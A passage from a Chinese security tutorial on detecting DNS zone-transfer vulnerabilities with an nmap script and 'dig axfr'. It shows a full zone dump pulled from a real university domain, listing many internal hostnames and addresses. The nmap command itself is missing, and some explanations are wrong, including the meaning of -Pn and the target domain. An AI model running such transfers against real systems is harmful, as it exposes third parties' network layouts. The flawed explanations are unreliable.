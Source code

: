 ```shell
```


对上述命令命令说明如下：

nmap –script dns-zone-transfer表示加载nmap文件夹下的脚本文件dns-zone-transfer.nse，扩展名.nse可省略

–script-args dns-zone-transfer.domain=zonetransfer.me向脚本传递参数，设置列出记录的域是nwpu.edu.cn

-p 53设置扫描53端口

-Pn:设置通过Ping发现主机是否存活

利用dig 检测dns域传送漏洞
这里涉及dig 一个重要的命令axfr:

axfr 是q-type类型的一种: axfr类型是Authoritative Transfer的缩写，指请求传送某个区域的全部记录。

我们只要欺骗dns服务器发送一个axfr请求过去，　如果该dns服务器上存在该漏洞，就会返回所有的解析记录值

第一步: 找到解析域名的dns服务器(Server服务器), 我们可以发送一个ns类型解析请求过去

dig thnu.edu.cn ns

;; ANSWER SECTION:
thnu.edu.cn.        2185    IN  NS  DNS1.thnu.edu.cn.
第二步: 然后向该域名发送axfr 请求：

❰root❙~❱✔≻ dig axfr @dns1.thnu.edu.cn thnu.edu.cn

; <<>> DiG 9.10.3-P4-Debian <<>> axfr @dns1.thnu.edu.cn thnu.edu.cn
; (1 server found)
;; global options: +cmd
thnu.edu.cn.        3600    IN  SOA dns1.thnu.edu.cn. root.thnu.edu.cn. 2017102704 30 30 360 3600
thnu.edu.cn.        3600    IN  NS  dns1.thnu.edu.cn.
thnu.edu.cn.        3600    IN  MX  0 mail.thnu.edu.cn.
admin.thnu.edu.cn.  3600    IN  A   172.16.200.11
admissions.thnu.edu.cn. 3600    IN  A   222.160.127.36
alumni.thnu.edu.cn. 3600    IN  A   222.160.127.36
bwc.thnu.edu.cn.    3600    IN  A   222.160.127.36
cxbd.thnu.edu.cn.   3600    IN  A   222.160.127.36
cxzx.thnu.edu.cn.   3600    IN  A   222.160.127.36
ddh.thnu.edu.cn.    3600    IN  A   222.160.127.38
DNS1.thnu.edu.cn.   3600    IN  A   125.223.168.5
dwb.thnu.edu.cn.    3600    IN  A   222.160.127.36
ggl.thnu.edu.cn.    3600    IN  A   222.160.127.36
gjjl.thnu.edu.cn.   3600    IN  A   222.160.127.36
gjjy.thnu.edu.cn.   3600    IN  A   222.160.127.36
gs.thnu.edu.cn.     3600    IN  A   222.160.127.36
hqc.thnu.edu.cn.    3600    IN  A   222.160.127.36
hxxy.thnu.edu.cn.   3600    IN  A   222.160.127.36
jcc.thnu.edu.cn.    3600    IN  A   222.160.127.36
jcjy.thnu.edu.cn.   3600    IN  A   222.160.127.36
jjc.thnu.edu.cn.    3600    IN  A   222.160.127.36
jjfz.thnu.edu.cn.   3600    IN  A   222.160.127.36
jjw.thnu.edu.cn.    3600    IN  A   222.160.127.36
jky.thnu.edu.cn.    3600    IN  A   222.160.127.36
jsjxy.thnu.edu.cn.  3600    IN  A   222.160.127.36
jwc.thnu.edu.cn.    3600    IN  A   222.160.127.36
jwgl.thnu.edu.cn.   3600    IN  A   111.26.184.4
jxjyxy.thnu.edu.cn. 3600    IN  A   222.160.127.36
jy.thnu.edu.cn.     3600    IN  A   47.89.44.34
jyw.thnu.edu.cn.    3600    IN  A   222.160.127.36
jyx.thnu.edu.cn.    3600    IN  A   222.160.127.36
kyc.thnu.edu.cn.    3600    IN  A   222.160.127.36
kyys.thnu.edu.cn.   3600    IN  A   222.160.127.36
kzfxt.thnu.edu.cn.  3600    IN  A   222.160.127.36
lib.thnu.edu.cn.    3600    IN  A   222.160.127.36
ltx.thnu.edu.cn.    3600    IN  A   222.160.127.36